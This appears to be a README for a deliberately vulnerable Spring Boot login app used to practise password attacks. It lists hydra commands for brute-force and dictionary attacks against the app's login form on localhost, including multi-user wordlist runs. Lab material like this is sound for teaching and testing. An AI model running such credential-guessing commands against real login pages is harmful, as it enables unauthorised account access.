 # Hydra Victim example application

## Installation

### Hydra
```
brew install hydra
```

### SpringBoot
```
./mvnw spring-boot:run
```

## Attacks

### Brute force

#### With known failure
```
hydra -V -l admin -x 4:6:1a -s 8080 localhost http-form-post "/login:login=^USER^&passw=^PASS^:credentials"
```

#### With known success
```
hydra -V -l admin -x 4:6:1a -s 8080 localhost http-form-post "/login:login=^USER^&passw=^PASS^:S=logged"
```

### Dictionary
```
hydra -V -l administrator -P ./keyboard.txt -s 8080 localhost http-form-post "/login:login=^USER^&passw=^PASS^:Bad credentials"
```


### Dictionary with multiple users
```
hydra -V -u -L ./users.txt -P ./keyboard.txt -s 8080 localhost http-form-post "/login:login=^USER^&passw=^PASS^:Bad credentials"
```

## License
MIT